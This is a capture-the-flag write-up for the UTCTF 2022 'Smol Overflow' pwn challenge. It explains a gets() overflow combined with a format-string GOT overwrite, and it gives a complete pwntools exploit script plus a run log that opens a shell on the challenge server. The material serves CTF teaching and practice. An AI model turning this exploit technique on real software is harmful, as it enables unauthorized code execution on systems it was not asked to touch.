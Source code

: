 # UTCTF 2022

## Smol Overflow 

> You can have a little overflow, as a treat
> 
> By Tristan (@trab on discord)
>
> `nc pwn.utctf.live 5004` 
>
> [`smol`](smol)

Tags: _pwn_ _x86-64_ _bof_ _format-string_ _got-overwrite_ _remote-shell_


## Summary

Basic format-string GOT overwrite exploit with BOF to write out format string.  _win_ function included!


## Analysis

### Checksec

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

Partial RELRO + No PIE = GOT overwrite or ROP if you have BOF and canary.


### Ghidra Decompile

```c
undefined8 main(void)
{
  char cVar1;
  int iVar2;
  ulong uVar3;
  char *pcVar4;
  long in_FS_OFFSET;
  byte bVar5;
  char local_158 [111];
  undefined4 uStack233;
  undefined2 uStack229;
  char local_78 [104];
  long local_10;
  
  bVar5 = 0;
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  puts("What kind of data do you have?");
  gets(local_158);
  iVar2 = strcmp(local_158,"big data");
  if (iVar2 == 0) {
    uVar3 = 0xffffffffffffffff;
    pcVar4 = (char *)((long)&uStack233 + 1);
    do {
      if (uVar3 == 0) break;
      uVar3 = uVar3 - 1;
      cVar1 = *pcVar4;
      pcVar4 = pcVar4 + (ulong)bVar5 * -2 + 1;
    } while (cVar1 != '\0');
    *(undefined4 *)((long)&uStack233 + ~uVar3) = 0x30322025;
    *(undefined2 *)((long)&uStack229 + ~uVar3) = 0x73;
  }
  else {
    iVar2 = strcmp(local_158,"smol data");
    if (iVar2 == 0) {
      uVar3 = 0xffffffffffffffff;
      pcVar4 = (char *)((long)&uStack233 + 1);
      do {
        if (uVar3 == 0) break;
        uVar3 = uVar3 - 1;
        cVar1 = *pcVar4;
        pcVar4 = pcVar4 + (ulong)bVar5 * -2 + 1;
      } while (cVar1 != '\0');
      *(undefined4 *)((long)&uStack233 + ~uVar3) = 0x73352025;
      *(undefined *)((long)&uStack229 + ~uVar3) = 0;
    }
    else {
      puts("Error");
    }
  }
  puts("Give me your data");
  gets(local_78);
  printf((char *)((long)&uStack233 + 1),local_78);
  putchar(10);
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
    __stack_chk_fail();
  }
  return 0;
}
```

> _smol_ this isn't.  Most "smol" challenges are a few lines.  At least the solve is "smol".
>
> Not shown is the win function `get_flag`.  Clearly the objective is to execute that.

There's a few `gets` here we can exploit as well as `printf`.

The first prompt will change the format string if you enter `big data` or `smol data`.  None of this is important.

```
  char local_158 [111];
  undefined4 uStack233;
  undefined2 uStack229;
  char local_78 [104];
```

Above is how the variables are stacked up in the stack.  The format string is at `uStack233 + 1`:

```
  printf((char *)((long)&uStack233 + 1),local_78);
```

`gets(local_158);` can be used to overwrite the format string; just send `0x158 - 233 + 1` of garbage followed by your format string.  It's that easy.  Why `0x158` and `233`?  Look at the variables above.  `local_158` is `0x158` bytes from the end of the stack frame.  `uStack233` is `233` (decimal) bytes from the end of the stack frame (Ghidra uses an underscore for hex).

The format string just needs to replace `putchar` with `get_flag` so that on `putchar(10);` invocation we get a shell.


## Exploit

```python
#!/usr/bin/env python3

from pwn import *

binary = context.binary = ELF('./smol',checksec=False)

if args.REMOTE:
    p = remote('pwn.utctf.live', 5004)
else:
    p = process(binary.path)

offset = (0x158 - 233 + 1) // 8 + 6

payload  = b''
payload += (0x158 - 233 + 1) * b'A'
payload += fmtstr_payload(offset,{binary.got.putchar:binary.sym.get_flag})

assert(len(payload) < (0x158 - 0x78))

p.sendlineafter(b'have?\n',payload)
p.sendlineafter(b'data\n',b'')
p.interactive()
```

The `assert` is there to make sure our payload does not allow the second `gets` to _get_ in our way, if it did, we'd have to make sure to overwrite the rest of our payload correctly.  IOW, just keep it short.


```bash
# ./exploit.py REMOTE=1
[+] Opening connection to pwn.utctf.live on port 5004: Done
[*] Switching to interactive mode
$ cat flag.txt
utflag{just_a_little_salami15983350}
```
